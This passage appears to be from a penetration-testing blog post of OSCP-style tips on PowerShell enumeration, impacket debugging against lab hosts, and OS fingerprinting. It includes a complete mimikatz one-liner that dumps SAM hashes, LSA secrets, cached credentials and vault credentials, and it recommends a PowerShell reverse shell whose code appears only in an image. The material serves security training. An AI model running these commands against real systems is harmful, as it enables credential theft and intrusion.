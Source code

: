 ## 🔥 Pro Tips (Technical)

## Need for Powershell Expressions:

> Oftentimes, When using PowerShell commands, the property of the object’s content would get truncated if it exceeds a certain limit. Even, filtering with the select-object command may not help. A better way of displaying that without truncation is using | % {$_.property_name}.

![[Pasted image 20241114224130.png]]

> See the difference? Ensure you don’t miss any data during enumeration.

- Use **PASSIVE** mode in the FTP server particularly when the machine is behind a firewall. It allows easier data transfer avoiding restrictive firewall rules.
- If any of the impacket tools aren’t working, use **-debug** option to get the verbose output. It will certainly be useful for understanding what happens under the hood when connecting with kerberos tickets through kali linux. I was stuck in a similar situation and found **-debug** option to be very useful.

```
impacket-psexec -k -no-pass SCCM.LAB/dave@mec.sccm.lab -debug  
impacket-mssqlclient -k -no-pass SSCM.LAB/sccm-sql@mssql.sccm.lab -debug
```

- Quickly identify the type of machine (linux/windows) by pinging and noticing the TTL value. Windows ≤ **128**; Unix/Linux ≤ **64**

![[Pasted image 20241114224159.png]]

- **Mimikatz one-liner**: use this command instead of copying and pasting each item one by one. Also, you can use this one-liner when your mimikatz binary is behaving weirdly. Have you heard / experienced Infinite Loop with mimikatz? If you know, you know..

```
.\mimikatz.exe "privilege::debug" "token::elevate" "log" "lsadump::sam /patch" "lsadump::sam" "sekurlsa::msv" "lsadump::secrets" "lsadump::lsa" "lsadump::lsa /patch" "lsadump::cache" "sekurlsa::logonpasswords full" "sekurlsa::ekeys" "sekurlsa::dpapi" "sekurlsa::credman" "vault::list" "vault::cred /patch" "exit"
```
- **PS Reverse Shell —** Favourite Pick from the Internet. If a domain user can execute PowerShell commands through the **-X** argument in NetExec / CrackMapExec, then execute a reverse shell. (Shoutout: [eins blog](https://eins.li/posts/oscp-secret-sauce/))

![[Pasted image 20241114224219.png]]

- Check **PowerShell Language mode** to see what execution capabilities are available to users before running into Powershell errors.

![[Pasted image 20241114224237.png]]

```
$ExecutionContext.SessionState.LanguageMode # checks language mode
```
